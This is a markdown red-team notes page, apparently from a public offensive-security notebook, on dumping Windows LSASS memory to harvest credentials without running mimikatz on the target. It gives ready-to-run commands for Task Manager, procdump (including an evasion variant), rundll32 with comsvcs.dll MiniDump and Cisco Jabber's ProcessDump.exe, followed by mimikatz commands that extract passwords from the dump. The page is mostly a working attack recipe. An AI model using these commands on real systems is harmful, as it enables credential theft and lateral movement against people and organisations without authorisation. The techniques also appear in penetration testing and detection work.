 ```yaml
---
layout: post
title: "dump credentials from lsass process without mimikatz"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dump-credentials-from-lsass-process-without-mimikatz/
---
```


---
layout: post
title: "dump credentials from lsass process without mimikatz"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dump-credentials-from-lsass-process-without-mimikatz/
---

# Dumping Lsass Without Mimikatz

## MiniDumpWriteDump API

See my notes about writing a simple custom process dumper using `MiniDumpWriteDump` API:

{% content-ref url="dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md" %}
[dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md](dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md)
{% endcontent-ref %}

## Task Manager

Create a minidump of the lsass.exe using task manager (must be running as administrator):

![](<../../.gitbook/assets/Screenshot from 2019-03-12 19-55-27.png>)

![](<../../.gitbook/assets/Screenshot from 2019-03-12 19-56-12.png>)

Swtich mimikatz context to the minidump:

{% code title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 19-54-15.png>)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-11-28.png>)

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-13-25.png>)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](<../../.gitbook/assets/image (165).png>)

## ProcessDump.exe from Cisco Jabber

Sometimes Cisco Jabber (always?) comes with a nice utility called `ProcessDump.exe` that can be found in `c:\program files (x86)\cisco systems\cisco jabber\x64\`. We can use it to dump lsass process memory in Powershell like so:

```
cd c:\program files (x86)\cisco systems\cisco jabber\x64\
processdump.exe (ps lsass).id c:\temp\lsass.dmp
```

![screenshot by @em1rerdogan](<../../.gitbook/assets/image (634).png>)

## References

{% embed url="https://t.co/s2VePo3ICo?amp=1" %}
@spotheplanet
